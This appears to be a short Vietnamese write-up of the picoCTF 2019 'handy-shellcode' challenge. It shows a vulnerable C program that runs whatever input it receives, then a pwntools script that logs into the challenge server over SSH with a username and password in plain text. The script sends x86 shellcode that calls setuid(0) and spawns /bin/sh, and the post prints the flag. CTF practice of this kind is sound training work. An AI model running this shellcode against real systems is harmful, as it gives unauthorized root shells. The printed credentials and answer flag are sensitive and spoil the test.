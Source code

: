 #Đây là 1 bài dễ

Đây là code của chương trình:
 
```
sh
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```
Bài này rất dễ. 
Mình chỉ cần chọn shellcode hợp lí nhất.
Ở đây mình lấy 1 shellcode: setuid(0) và sao đó là shell "/bin/sh". Vì sao phải dùng setuid(0), vì chương trình đã setuid ngăn không cho mình thực thi "/bin/sh" nên chúng ta sẽ cho nó về giá trị mặc định.

Đây là file exploit của mình:

```sh
from pwn import *

#s = process("./vuln")
s = ssh(host= '2019shell1.picoctf.com',user = 'hazir',password = '2k4')
r = s.run("cd /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5; ./vuln")
raw_input("Debug")
	# Padding goes here
p= '''\x31\xC0\x31\xDB\x31\xC9\xB0\x17\xCD\x80\x31\xC0\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x8D\x54\x24\x08\x50\x53\x8D\x0C\x24\xB0\x0B\xCD\x80\x31\xC0\xB0\x01\xCD\x80'''

r.sendline(p)
r.interactive()
r.close()
```

- Và boom, ta được gì sau khi chạy ` picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487} `